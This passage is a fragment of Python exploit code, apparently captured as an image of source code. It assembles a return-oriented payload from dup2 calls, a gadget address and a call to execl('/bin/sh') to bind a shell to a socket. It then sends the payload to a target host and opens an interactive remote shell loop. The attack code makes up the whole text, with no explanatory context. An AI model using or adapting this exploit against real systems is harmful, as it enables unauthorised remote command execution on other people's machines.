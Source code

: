 ```lang-python line-numbers 
                p(1),  # fd 1
                p(dup2_addr),
                p(0x080495be), # pop, pop, ret
                p(socketfd),  # fd 4
                p(2),  # fd 2
                p(0x08048c62), # call execl("/bin/sh")
                "\n"]

    payload = "".join(payload)
    #ask_for_key()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip, port))
    send_mouse_attack(s, payload)
    time.sleep(1)

    print "[+] Shell is waiting ..."
    while True:
        sys.stdout.write("$ ")
        sys.stdout.flush()
        c = sys.stdin.readline()
        s.send(c)
        time.sleep(0.5)
        print s.recv(4095)

    s.close()


```
